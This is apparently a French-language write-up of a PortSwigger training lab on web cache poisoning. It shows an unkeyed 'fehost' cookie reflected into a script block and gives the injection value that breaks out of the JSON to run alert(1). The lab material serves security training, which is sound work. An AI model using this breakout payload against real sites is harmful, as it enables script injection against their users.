# Lab

https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-cookie

## Payload

Avec `Param Miner` on trouve un unlinked cookie : `fehost`.

Il est injecté ici dans la réponse : 

```html
<script>
    data = {
        "host":"0af3008d0345791681ca7aad0054003b.web-security-academy.net",
        "path":"/",
        "frontend":"PAYLOAD"
    }
</script>
```

En envoyant le cookie `fehost` avec la valeur `"};alert(1);a = {"a":"` on obtient :

```html
<script>
    data = {
        "host":"0af3008d0345791681ca7aad0054003b.web-security-academy.net",
        "path":"/",
        "frontend":""
        };
    alert(1);
    a = {
            "a":""
        }
</script>
```

Ce qui provoque une alerte et on valide le lab.